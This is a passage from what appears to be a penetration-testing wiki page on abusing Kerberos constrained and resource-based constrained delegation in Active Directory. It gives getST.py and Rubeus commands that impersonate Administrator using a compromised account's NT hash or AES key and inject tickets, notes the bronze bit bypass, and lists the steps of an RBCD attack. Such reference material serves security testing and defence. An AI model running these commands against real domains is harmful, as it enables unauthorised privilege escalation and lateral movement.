 The input credentials are those of the compromised service account configured with constrained delegations.

```bash
# with an NT hash
getST.py -spn $Target_SPN -impersonate Administrator -dc-ip $Domain_controller -hashes :$Controlled_service_NThash $Domain/$Controlled_service_account

# with an AES (128 or 256 bits) key
getST.py -spn $Target_SPN -impersonate Administrator -dc-ip $Domain_controller -aesKey $Controlled_service_AES_key $Domain/$Controlled_service_account
```

The SPN \(ServicePrincipalName\) set will have an impact on what services will be reachable. For instance, `cifs/target.domain` or `host/target.domain` will allow most remote dumping operations \(more info on [adsecurity.org](https://adsecurity.org/?page_id=183)\).

{% hint style="warning" %}
In [some cases](delegations.md#theory), the delegation will not work. Depending on the context, the [bronze bit ](forged-tickets.md#bronze-bit-cve-2020-17049)vulnerability \(CVE-2020-17049\) can be used with the `-force-forwardable` option to try to bypass restrictions.
{% endhint %}
{% endtab %}

{% tab title="Windows" %}
[Rubeus ](https://github.com/GhostPack/Rubeus)can be used to request the delegation TGT and the "impersonation ST".

```bash
# Request the TGT
Rubeus.exe tgtdeleg

# Request the ST and inject it for pass-the-ticket
Rubeus.exe s4u /ticket:$base64_extracted_TGT /impersonateuser:Administrator /domain:$DOMAIN /msdsspn:$Target_SPN /dc:$DomainController /ptt
```

Once the ticket is injected, it can natively be used when accessing the service \(see [pass-the-ticket](pass-the-ticket.md)\).
{% endtab %}
{% endtabs %}

### Resource Based Constrained Delegations \(RBCD\)

If an account, having the capability to edit the `msDS-AllowedToActOnBehalfOfOtherIdentity` security descriptor of another object \(e.g. the `GenericWrite` ACE, see [Abusing ACLs](../access-control-entries/)\), is compromised, an attacker can use it populate that attribute, hence configuring that object for RBCD.

Then, in order to abuse this, the attacker has to control the computer account the object's attribute has been populated with.

In this situation, an attacker can obtain admin access to the target resource \(the object configured for RBCD in the first step\).

1. Control a computer account \(e.g. create a computer account by leveraging the `MachineAccountQuota` setting\)
2. Populate the `msDS-AllowedToActOnBehalfOfOtherIdentity` security descriptor of another object with the controlled machine account as value, using the credentials of a domain user that has the capability to populate attributes on the target object \(e.g. `GenericWrite`\).
3. Using the computer account credentials, operate S4U2Self and S4U2Proxy requests, just like constrained delegation with protocol transition.
